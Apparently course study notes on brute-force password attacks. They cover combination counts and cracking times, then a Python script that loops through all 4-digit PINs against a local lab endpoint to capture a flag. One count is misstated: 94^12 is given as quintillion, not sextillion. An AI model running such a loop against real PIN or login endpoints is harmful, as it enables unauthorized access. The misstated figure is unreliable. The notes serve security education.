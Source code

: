 # Brute Force Attacks

**Understanding Brute Force Attacks:**

* Brute force attacks involve systematically trying all possible combinations to crack passwords.
* The total number of combinations can be calculated using the formula:
  * **Possible Combinations = Character Set Size^Password Length**

**Example Calculations:**

* **6-character password (lowercase letters):**
  * 26^6 ≈ 300 million combinations.
* **8-character password (lowercase letters):**
  * 26^8 ≈ 200 billion combinations.
* **8-character password (lowercase + uppercase):**
  * 52^8 ≈ 53 trillion combinations.
* **12-character password (lowercase, uppercase, numbers, symbols):**
  * 94^12 ≈ 475 quintillion combinations.

**Key Takeaways:**

* Increasing password length or complexity (adding character types) exponentially increases the search space, making brute-force attacks more difficult.
* The attacker's computational power significantly affects the time required to crack a password. More powerful hardware can attempt more guesses per second.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>Credits to HTB</p></figcaption></figure>

**Cracking Time Comparison:**

* **Basic Computer (1 million passwords/second):**
  * Cracking an 8-character alphanumeric password could take \~6.92 years.
* **Supercomputer (1 trillion passwords/second):**
  * Even with this power, cracking a complex 12-character password could take \~15,000 years.

**Practical Example: Cracking a 4-Digit PIN**

* A simple demonstration involves brute-forcing a 4-digit PIN (0000 to 9999) using a Python script.
* The script sends requests to a server endpoint, checking each PIN until the correct one is found.

**Python Script Overview:**

```python
pythonCopy Codeimport requests

ip = "127.0.0.1"  # Target system IP
port = 1234       # Target system port

# Brute-force all 4-digit PINs
for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

* The script iterates through all possible PINs, checking responses to find the correct one and capture the associated flag.

**Conclusion:**

* Brute force attacks highlight the importance of strong, complex passwords and the need for robust security measures to protect against such vulnerabilities.
